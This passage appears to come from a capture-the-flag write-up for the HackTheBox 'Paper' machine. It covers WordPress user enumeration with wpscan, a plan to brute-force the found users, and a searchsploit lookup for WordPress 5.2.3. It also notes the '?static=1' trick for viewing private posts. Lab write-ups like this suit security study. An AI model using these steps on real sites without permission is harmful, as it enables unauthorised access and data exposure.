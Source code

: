 ![image](/assets/img/posts/Hackthebox/paper/wpscan-enum.png)

Things to note:
- From the first image we know the site was built from an ancient wordpress version and there will most likely be an exploit in the wild
- From the second image we know all our users, nick and prisonmike.. we could run a bruteforce with wpscan against both users, while we search if an exploit exists for the wp version ```echo -n "prisonmike\nnick > users.txt"```

Leading with the wp version we have a sensitive information disclosure exploit which could be carried out by appending the url with ```?static=1``` 

```
┌──(azazel㉿azazel)-[~]
└─$ searchsploit wordpress 5.2.3  
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                                                                                                                                                         | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                                                                     | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                                                                                     | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                                                         | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                                                                                                   | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                                                                                                 | php/webapps/48918.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results


┌──(azazel㉿azazel)-[~/Hackthebox/paper]
└─$ searchsploit -m multiple/webapps/47690.md;cat 47690.md
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
```